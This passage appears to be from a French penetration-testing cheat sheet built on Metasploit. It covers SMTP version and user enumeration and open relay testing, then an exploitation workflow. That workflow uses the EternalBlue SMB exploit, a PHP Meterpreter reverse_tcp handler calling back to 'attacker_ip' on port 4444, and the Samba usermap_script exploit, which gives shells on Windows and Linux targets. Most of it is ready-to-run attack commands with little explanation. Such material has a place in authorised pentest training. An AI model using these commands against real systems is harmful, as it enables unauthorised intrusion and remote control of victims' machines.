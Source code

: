 
### 3.6 Si port 25/587 (SMTP) détecté

#### 🔍 Détection
```bash
use auxiliary/scanner/smtp/smtp_version
set RHOSTS target
run

use auxiliary/scanner/smtp/smtp_enum
set RHOSTS target
run
```

#### ⚔️ Exploitation
- **User enumeration** : VRFY, EXPN commands
- **Open relay test** : `use auxiliary/scanner/smtp/smtp_relay`

---

## 💥 Phase 4: Exploitation

### 4.1 Windows - Workflow standard

#### Si SMB vulnérable (EternalBlue)
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target
set LHOST attacker_ip
check
exploit

# Si succès → session Meterpreter
sysinfo
getuid
```

#### Si web application vulnérable
```bash
# Upload shell PHP
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
exploit

# Dans un autre terminal, uploader le shell sur l'app web
```

### 4.2 Linux - Workflow standard

#### Si Samba vulnérable
```bash
use exploit/multi/samba/usermap_script
set RHOSTS target
set LHOST attacker_ip
exploit

# Si succès → shell Linux
```
